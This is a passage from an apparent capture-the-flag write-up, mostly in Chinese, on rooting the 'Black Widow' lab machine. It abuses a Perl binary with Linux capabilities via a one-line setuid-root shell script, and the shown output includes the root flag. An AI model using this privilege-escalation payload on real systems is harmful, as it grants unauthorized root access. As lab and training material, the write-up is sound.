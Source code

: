 在Gpt的帮助下，认为这个这个程序应该就是一个Perl，可以允许Perl脚本

### 4.2. perl & Capabilities提权
https://gtfobins.github.io/gtfobins/perl/#capabilities
![Pasted image 20241224135317](http://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241224135317.png)
```bash
viper@blackwidow:~/backup_site/assets/vendor/weapon$ vi getroot.pl
viper@blackwidow:~/backup_site/assets/vendor/weapon$ ./arsenic  getroot.pl
# cat getroot.pl
use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";

# whoami
root

# cat /root/root.txt


▄▄▄▄· ▄▄▌   ▄▄▄·  ▄▄· ▄ •▄     ▄▄▌ ▐ ▄▌▪  ·▄▄▄▄        ▄▄▌ ▐ ▄▌
▐█ ▀█▪██•  ▐█ ▀█ ▐█ ▌▪█▌▄▌▪    ██· █▌▐███ ██▪ ██ ▪     ██· █▌▐█
▐█▀▀█▄██▪  ▄█▀▀█ ██ ▄▄▐▀▀▄·    ██▪▐█▐▐▌▐█·▐█· ▐█▌ ▄█▀▄ ██▪▐█▐▐▌
██▄▪▐█▐█▌▐▌▐█ ▪▐▌▐███▌▐█.█▌    ▐█▌██▐█▌▐█▌██. ██ ▐█▌.▐▌▐█▌██▐█▌
·▀▀▀▀ .▀▀▀  ▀  ▀ ·▀▀▀ ·▀  ▀     ▀▀▀▀ ▀▪▀▀▀▀▀▀▀▀•  ▀█▄▀▪ ▀▀▀▀ ▀▪


Congrats!

You've rooted Black Widow!

0xJin - mindsflee
Follow on Instagram: 0xjiin
Follow on Twitter: 0xJin , @mindsflee


0780eb289a44ba17ea499ffa6322b335

```
